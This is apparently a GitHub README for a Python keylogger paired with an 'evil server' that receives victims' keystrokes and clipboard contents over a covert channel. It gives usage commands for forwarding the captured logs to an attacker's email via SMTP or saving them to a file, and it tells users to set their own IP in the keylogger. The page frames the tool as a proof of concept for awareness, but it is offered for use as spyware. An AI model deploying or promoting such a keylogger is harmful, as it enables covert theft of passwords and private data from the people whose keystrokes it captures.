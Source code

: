 ![Screenshot_20231005_033920](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/7fe2fe3c-0284-4b75-8f84-840f01aea259)

<div>
    <img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit, as it serves as a proof of concept and can be improved in many ways.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible

***Remember to add your local or proxy IP address in the keylogger script***

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/90fdbc71-30a5-4fa4-8ff7-847214c3f9d3)


#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/25d7e790-5ea3-451f-8371-e34dc955d57e)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity

